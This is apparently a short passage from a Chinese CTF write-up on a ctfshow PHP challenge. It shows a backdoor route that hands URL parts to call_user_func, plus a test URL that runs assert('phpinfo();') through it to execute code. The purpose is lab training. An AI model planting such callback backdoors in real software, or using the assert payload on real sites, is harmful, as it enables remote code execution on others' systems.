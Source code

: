 发现在`ctfshow`模块存在`call_user_func`回调函数做后门，利用一下

```php
'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
```

![5](/medias/show-think/5.png)

测试一下，`url/index.php/ctfshow/assert/phpinfo();`

完美

![6](/medias/show-think/6.png)
